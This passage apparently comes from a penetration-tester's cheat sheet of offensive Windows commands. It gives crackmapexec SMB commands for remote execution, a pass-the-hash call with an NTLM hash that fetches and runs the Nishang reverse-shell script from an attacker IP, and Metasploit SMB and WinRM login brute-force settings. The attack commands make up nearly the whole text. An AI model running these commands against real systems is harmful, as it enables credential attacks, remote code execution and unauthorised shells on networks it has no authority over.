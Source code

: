                 proxychains -q crackmapexec smb 172.16.177.0/24 -k --use-kcache --kdcHost <DChostname>
        //RCE:
            -x switch to execute commands from cmd.exe or the -X switch to perform commands using PowerShell
            ex. -x "ping -n 2 192.168.49.121"
            //Reverse Shell example w/ Nishang:
                //add to bottom of Invoke-PowerShellTcp.ps1:  Invoke-PowerShellTcp -Reverse -IPAddress 172.16.1.30 -Port 443
                crackmapexec smb 172.16.1.200 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -X "iex(new-object net.webclient).downloadstring('http://172.16.1.30/Invoke-PowerShellTcp443.ps1')"
        //MSF - SMB (w/ password):
            use auxiliary/scanner/smb/smb_login
            set RHOSTS <DC_IP>
            set SMBDomain megacorp.local
            set SMBPass Passw0rd!
            set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
            set VERBOSE False
            run
        //MSF - WinRM (w/ password):
            use auxiliary/scanner/winrm/winrm_login
            set rhosts 192.168.1.105
            set user_file /root/user.txt
            set pass_file /root/pass.txt
            set stop_on_success true
            exploit